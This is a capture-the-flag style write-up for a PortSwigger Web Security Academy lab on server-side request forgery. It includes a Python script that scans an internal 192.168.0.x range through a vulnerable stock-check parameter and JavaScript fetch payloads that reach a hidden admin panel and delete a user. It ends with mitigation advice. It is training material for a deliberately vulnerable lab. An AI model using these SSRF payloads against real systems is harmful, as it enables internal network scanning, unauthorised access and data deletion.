




# PortSwigger Lab: Basic SSRF against another back-end system

## Lab Description
- **Platform:** PortSwigger Web Security Academy
- **Difficulty:** Apprentice
- **Objective:** Use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port `8080`, then use it to delete the user `carlos`.

## Vulnerability Analysis
The application's stock check functionality (`/product/stock`) accepts a URL via the `stockApi` parameter and fetches data from it without validating the destination. 

Unlike the previous lab, the internal admin panel is not on `localhost`, but on another machine within the internal network (`192.168.0.X` on port `8080`). By abusing the SSRF vulnerability, the server can be used as a proxy to scan the internal network and discover the hidden admin interface.

## Exploitation Steps
1. Identified the vulnerable endpoint (`/product/stock`) and parameter (`stockApi`).
2. Wrote a Python script to automate the scanning of the internal network range:
   ```python
   import requests

   lab_id = "YOUR-LAB-ID"
   url = f"https://{lab_id}.web-security-academy.net/product/stock"

   for i in range(1, 256):
       target = f"http://192.168.0.{i}:8080/admin"
       response = requests.post(url, data={"stockApi": target}, timeout=2)
       if response.status_code == 200:
           print(f"[+] FOUND ADMIN PANEL AT: {target}")
           break
   ```
3. Ran the script. It successfully discovered the admin panel at `http://192.168.0.42:8080/admin`.
4. Used the browser console to send a `fetch` request to the discovered admin panel, confirming it was accessible via SSRF:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=http://192.168.0.42:8080/admin'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
5. Found the deletion link for `carlos` in the returned HTML.
6. Executed the deletion request via the vulnerable server:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=http://192.168.0.42:8080/admin/delete?username=carlos'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
7. The user `carlos` was deleted, and the lab was solved.

## Evidence

### Scanner Code


### Scanner Result (Found IP)


### Accessing Admin Panel via SSRF


### Delete Request Execution


### Lab Solved


## Mitigation
To prevent SSRF, the application must validate the user-supplied URL.
1. **Allowlist:** Only allow requests to a specific, trusted stock API domain.
2. **Block Internal IPs:** Ensure the server cannot make requests to internal IP ranges (like `192.168.0.0/16`, `10.0.0.0/8`, `127.0.0.1`).